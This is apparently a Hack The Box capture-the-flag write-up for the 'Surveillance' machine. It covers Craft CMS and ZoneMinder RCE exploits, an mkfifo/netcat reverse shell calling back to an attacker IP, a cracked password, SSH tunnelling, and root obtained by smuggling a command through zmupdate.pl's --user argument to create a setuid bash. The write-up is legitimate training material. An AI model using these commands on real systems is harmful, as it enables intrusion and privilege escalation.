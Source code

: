 ```yaml
---
date: 2024-04-19T15:48:38-05:00
# description: ""
image: "/images/HTB-Surveillance/Surveillance.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: Surveillance"
type: "post"
---
```


* Platform: Hack The Box
* Link: [Surveillance](https://app.hackthebox.com/machines/Surveillance)
* Level: Medium
* OS: Linux
---

Surveillance begins with the discovery of a web application running on port 80, after identifying the software version, we use `CVE-2023-41892` to gain initial access. Through further exploration, we find a database backup leaking the user name and password hash for an admin user, which we utilize to SSH into the system and uncover an internal service. Leveraging SSH tunneling, we access the service and make use of `CVE-2023-26035` to exploit it. Eventually, by exploiting vulnerabilities in certain scripts, we escalate our privileges and gain access to the root account.

Target IP - `10.10.11.245`

## Scanning 

```
nmap -sC -sV -oA nmap/Surveillance 10.10.11.245
```

**Results**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-14 12:04 CDT
Nmap scan report for 10.10.11.245
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.52 seconds
```

We have two open ports 22 (SSH) and 80 (HTTP - nginx), we are also redirected to `http://surveillance.htb/`.

```
sudo echo "10.10.11.245 surveillance.htb" | sudo tee -a /etc/hosts
```

## Enumeration

The website is for a company offering security services but it does not offer any exploitable features.

![Surveillance website](/images/HTB-Surveillance/surveillance-website.png)

With `Wappalyzer` we discovered that the website is using `Craft CMS`. Going through the source code we find that the version running is `4.4.14`.

![Wappalyzer results](/images/HTB-Surveillance/Wappalyzer.png)

![Craft CMS version](/images/HTB-Surveillance/Craft-CMS-version.png)

Searching for vulnerabilities leads to [CVE-2023-41892](https://www.exploit-db.com/exploits/51918) allowing for unauthenticated remote code execution. A PoC is available [here](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce).

> In my experience the PoC above does not properly work sometimes, if this happens to you use [this one](https://github.com/Faelian/CraftCMS_CVE-2023-41892) instead.

## Initial Foothold

After running the script we get a shell.

![Surveillance initial foothold](/images/HTB-Surveillance/foothold.png)

We seem to be unable to upgrade it so let's redirect it to a netcat listener.

```
nc -lvnp 4444
```

Run the command below on the target (copy it all and paste it in your terminal)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.4 4444 >/tmp/f 
/usr/bin/script -qc /bin/bash /dev/null
```

![Reverse shell transfer](/images/HTB-Surveillance/revshell.png)

We then upgrade the shell we obtain via our listener.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116
```

![New shell](/images/HTB-Surveillance/new-shell.png)

For the system enumeration, we run `linpeas`. We note that `mysql` is running on the target.

![MySQL service](/images/HTB-Surveillance/mysql.png)

![MySQL version](/images/HTB-Surveillance/mysql1.png)

We also find credentials for the MySQL instance. 

![MySQL credentials](/images/HTB-Surveillance/Craft-db-pwd.png)

> We end up finding a `craftdb` database, with a table named `users` but we cannot crack the hashes found there.

A backup of the database is also found on the target in `/var/www/html/craft/storage/backups/`.

![FIles found by linpeas](/images/HTB-Surveillance/files.png)

The archive is sent to our local machine, after unzipping it and checking its content we find a hash for the user `Matthew` which is an admin.

> If you run `cat /etc/passwd` on the target you will indeed see the user `matthew`. 

![matthew user](/images/HTB-Surveillance/matthew.png)

Using [CrackStation](https://crackstation.net/) we confirm that it is a sha256 hash and successfully crack it to recover the password `starcraft122490`.

![matthew user password](/images/HTB-Surveillance/matthew-pwd.png)

With the credentials `matthew:starcraft122490` we log in via SSH and get the user flag.

![user flag](/images/HTB-Surveillance/user-flag.png)

### Port Forwarding

Checking the services running on the target with `ss -lntp` we find something on port `8080`. 

![ss command](/images/HTB-Surveillance/ss-cmd.png)

We use port forwarding to access the service. On our local machine we run

```
ssh -f -N -L 5555:127.0.0.1:8080 matthew@surveillance.htb
```

> The command above establishes a tunnel from the local machine to the remote server `surveillance.htb`.

We then access the service by visiting `localhost:5555`, and find a `ZoneMinder` instance. 

> "ZoneMinder is a free, open source Closed-circuit television software application developed for Linux which supports IP, USB and Analog cameras." Source - [ZoneMinder Github](https://github.com/ZoneMinder/zoneminder)

![ZoneMinder instance](/images/HTB-Surveillance/ZoneMinder.png)

Searching `zoneminder exploit` we find a [PoC](https://github.com/rvizx/CVE-2023-26035) for [CVE-2023-26035](https://www.exploit-db.com/exploits/51902) which also leads to unauthenticated RCE.

```
git clone https://github.com/rvizx/CVE-2023-26035
cd CVE-2023-26035
python3 exploit.py -t <target_url> -ip <attacker-ip> -p <port>
```
![ZoneMinder RCE exploit](/images/HTB-Surveillance/ZM-exploit.png)

On our listener we get another shell as `zoneminder`.

![ZoneMinder RCE shell](/images/HTB-Surveillance/ZM-shell.png)

## Privilege Escalation

Running `sudo -l`, we learn that the user `zoneminder` can execute anything matching the pattern `/usr/bin/zm[a-zA-Z]*.pl` with `sudo` privileges without being prompted for a password. Moreover any options can be passed to the commands thanks to the wildcard `*`.

![sudo -l command](/images/HTB-Surveillance/sudo-l.png)

Checking the content of `zmupdate.pl` we see that we can pass some arguments to it with switches like `--version` and `--user`.

![zmupdate script](/images/HTB-Surveillance/zmupdate.png)

So we can potentially make it execute a file for us.

```
echo 'cp /bin/bash /tmp/bash;chmod 4755 /tmp/bash' > /tmp/exploit.sh
chmod +x /tmp/exploit.sh
```

> When the `exploit.sh` script will be executed, it will create a copy of the `bash` binary in `/tmp` and set its permissions to be executable with elevated privileges (setuid).

With command substitution we execute our script via the `zmupdate.pl` script.

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/exploit.sh)'
```

> When the command is executed, anything enclosed within `$(...)` is treated as a command to be executed by the shell, and the output of that command replaces the command substitution. In this case, `/tmp/exploit.sh` is a script that creates a setuid binary for `/bin/bash` in the `/tmp` directory.

After starting a new instance of the bash shell we get to root.

```
/tmp/bash -p
```
![root flag](/images/HTB-Surveillance/root-flag.png)

This challenge was pretty straightforward and displayed how tunneling can be used for exploitation. If you want to dive deeper into tunneling Hack The Box has an excellent module on it available [here](https://academy.hackthebox.com/module/details/158). If you want to experiment with different tunneling tools you can check out [awesome-tunneling](https://github.com/anderspitman/awesome-tunneling).

